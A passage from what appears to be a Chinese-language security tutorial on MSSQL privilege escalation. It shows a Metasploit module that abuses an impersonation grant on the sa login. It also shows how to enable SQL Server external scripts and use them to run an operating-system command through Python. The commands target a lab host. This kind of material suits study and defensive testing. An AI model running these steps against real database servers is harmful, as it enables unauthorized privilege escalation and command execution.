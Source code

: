新建一个低权限用户  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-5dfac314526fca252ca16481765d081064ba4005.png)  
右键登录名，点击属性，添加特定对象  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-360e88ad367997fbcb857e53938895bc562d6d5a.png)  
选择对象类型为登录名。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e30dcc7bed54a00add6fbafe6f248fd3110d5bd7.png)  
浏览对象，选择sa  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-1a089bb4f499348d8f0fcf4471b96feacb7572ae.png)  
授予模拟权限。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-18ec26d229dd83972e11bf8edfe55f122dc30589.png)  
使用msf执行命令即可成功提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username lowpriv
set password admin
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-3778b4c4e870d9b643500959f23e354ea27be024.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-91b452190efeb42e76d172c7a67389b7f1f98e43.png)

使用外部脚本执行命令
==========

sqlserver 2019增添了许多新功能，安装时选择“机器学习服务和语言”，需要选中 R、Python、Java复选框。  
检查外部脚本是否启用

```php
sp_configure 'external scripts enabled'
GO
```

启动外部脚本

```php
EXECUTE sp_configure 'external scripts enabled', 1;
GO
RECONFIGURE;
GO
```

### 执行python命令

```php
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-82a686be7ad123283f733da9818e850e045958fa.png)
